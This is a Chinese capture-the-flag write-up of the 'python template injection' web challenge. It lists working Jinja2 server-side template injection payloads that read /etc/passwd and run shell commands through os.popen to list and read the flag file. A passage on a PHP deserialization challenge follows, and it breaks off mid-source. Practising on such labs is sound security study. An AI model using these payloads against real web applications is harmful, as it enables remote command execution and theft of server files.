 ## Web_python_template_injection
进入题目提示：**python template injection**，这个点不会，看了wp
执行
```python
{{7*7}}
```
![](https://img-blog.csdnimg.cn/20200323175926993.png)
可行，那么就可以读取数据了，读取/etc/password
```python
{{ [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() }}
```
![](https://img-blog.csdnimg.cn/20200323180145846.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
首先执行ls命令
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
    {% if 'eval' in b.keys() %}    //找到了
      {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
![](https://img-blog.csdnimg.cn/20200323180335383.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到了fl4g，那么cat一下就可以了，`将ls改为cat fl4g`
![](https://img-blog.csdnimg.cn/20200323180546774.png)
看了另一个师傅的，代码简单很多：
```python
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen("ls").read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen("cat fl4g").read()}}
```
方法很多，不拘于一种方法最好
参考：
[攻防世界WEB高手进阶之python_template_injection](https://www.cnblogs.com/mke2fs/p/11523005.html)
[[WP]Web>Python>template>注入,wpWebpythontemplateinjection,攻防,世界
](https://www.pythonf.cn/read/3573)

## Web_php_unserialize
反序列化的题目，给出了源码
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
```